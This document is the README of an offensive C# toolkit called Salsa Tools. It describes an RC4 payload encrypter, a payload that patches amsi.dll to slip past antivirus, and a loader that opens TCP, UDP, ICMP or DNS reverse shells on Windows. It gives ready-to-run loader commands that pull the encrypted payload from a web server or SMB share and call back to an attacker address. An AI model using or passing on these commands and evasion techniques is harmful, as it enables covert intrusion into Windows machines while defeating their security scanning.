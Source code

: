 ![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

# **Salsa Tools - ShellReverse**
## **TCP/UDP/ICMP/DNS and AV bypass, AMSI patched**

```
   _____       __              ______            __    
  / ___/____ _/ /________ _   /_  __/___  ____  / /____
  \__ \/ __ `/ / ___/ __ `/    / / / __ \/ __ \/ / ___/
 ___/ / /_/ / (__  ) /_/ /    / / / /_/ / /_/ / (__  ) 
/____/\__,_/_/____/\__,_/    /_/  \____/\____/_/____/  
                                                       

 [+] Starting the fucking Salsa...
 [+] EncrypterAssembly (Software to encrypt our payload)
 [+] EvilSalsa (This is our payload)
 [+] SalseoLoader (Software that we will use to load our encrypted payload)
```
Salsa Toos is a set of tools written in C #  
that allows you to have a shellreverse in any windows environment without the need of powershell for it's execution.  


```
  ______                             _            
 |  ____|                           | |           
 | |__   _ __   ___ _ __ _   _ _ __ | |_ ___ _ __ 
 |  __| | '_ \ / __| '__| | | | '_ \| __/ _ \ '__|
 | |____| | | | (__| |  | |_| | |_) | ||  __/ |   
 |______|_| |_|\___|_|   \__, | .__/ \__\___|_|   
     /\                   __/ | || |   | |        
    /  \   ___ ___  ___ _|___/|_|| |__ | |_   _   
   / /\ \ / __/ __|/ _ \ '_ ` _ \| '_ \| | | | |  
  / ____ \\__ \__ \  __/ | | | | | |_) | | |_| |  
 /_/    \_\___/___/\___|_| |_| |_|_.__/|_|\__, |  
                                           __/ |  
                                          |___/   
			  
 [+] Software that encrypts the payload using RC4
 [+] We have the version in python and the version in .exe
```
## Usage EncrypterAssembly in python

```
python encrypterassembly.py <FILE> <PASSWORD> <OUTPUT>
```

## Usage EncrypterAssembly in .EXE

```
Encrypterassembly.exe <FILE> <PASSWORD> <OUTPUT>
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/encrypterpython.png)

```
   ___ __ __  ____  _            
  /  _]  |  ||    || |           
 /  [_|  |  | |  | | |           
|    _]  |  | |  | | |___        
|   [_|  :  | |  | |     |       
|     |\   /  |  | |     |       
|_____| \_/  |____||_____|       
                                 
  _____  ____  _     _____  ____ 
 / ___/ /    || |   / ___/ /    |
(   \_ |  o  || |  (   \_ |  o  |
 \__  ||     || |___\__  ||     |
 /  \ ||  _  ||     /  \ ||  _  |
 \    ||  |  ||     \    ||  |  |
  \___||__|__||_____|\___||__|__|
  
[+] That is our Payload
                                 
```
## Description

EvilSalsa is our payload. Basically what we do is load the System.Management.Automation .dll. Create a runspace and within that runspaces we have four types of shells (TCP / UDP / ICMP / DNS). When the EvilSalsa is loaded into the system, the first thing it does is to check if "c:\windows\system32\amsi.dll" is found in the system. If it is in the system, it is patched: D. Patching is a patch variant of CyberArk and Rastamouse.

AMSI Bypass Redux (CyberArk) https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/  
AMSI Bypass (Rastamouse) https://rastamouse.me/2018/11/amsiscanbuffer-bypass---part-3/  


```
  _____  ____  _     _____   ___   ___    
 / ___/ /    || |   / ___/  /  _] /   \   
(   \_ |  o  || |  (   \_  /  [_ |     |  
 \__  ||     || |___\__  ||    _]|  O  |  
 /  \ ||  _  ||     /  \ ||   [_ |     |  
 \    ||  |  ||     \    ||     ||     |  
  \___||__|__||_____|\___||_____| \___/   
                                          
 _       ___    ____  ___      ___  ____  
| |     /   \  /    ||   \    /  _]|    \ 
| |    |     ||  o  ||    \  /  [_ |  D  )
| |___ |  O  ||     ||  D  ||    _]|    / 
|     ||     ||  _  ||     ||   [_ |    \ 
|     ||     ||  |  ||     ||     ||  .  \
|_____| \___/ |__|__||_____||_____||__|\_|

[+] This software is the one that we will use to load the encrypted payload
```

## Description

This software is the one that we will use to load the encrypted payload. SalseoLoader can be compiled as a library or as an executable. In the case that it is compiled as executable, we must only pass the argument that we want to execute. On the contrary, if we compile it as a library. We will have to make an export of the descriptor "main". And the way to create the argument, is done through the reading of environmental variables.

# Usage SalseoLoader
```
SalseoLoader.exe <PASSWORD> <PAYLOAD PATH> <SHELL TYPE> <LHOST> <LPORT>
```

## Usage SalseoLoader in .EXE reading from web server.
## Example ReverseUDP
```
SalseoLoader.exe hc0n-2019 http://192.168.1.235/elmal.txt reverseudp 192.168.1.235 1337
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example1.png)

## Usage SalseoLoader in .EXE reading from local file.
## Example ReverseTCP
```
SalseoLoader.exe hc0n-2019 C:\elmal.txt reversetcp 192.168.1.235 1337
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example2.png)


## Usage SalseoLoader in .EXE reading from SMB file.
## Example ReverseICMP
```
SalseoLoader.exe hc0n-2019 \\192.168.1.235\evil\elmal.txt reverseicmp 192.168.1.235 
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example3.png)

## Usage SalseoLoader 
## Example ReverseDNS
```
SalseoLoader.exe hc0n-2019 C:\elmal.txt reversedns 192.168.1.235 licordebellota.org
```

![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example4.png)

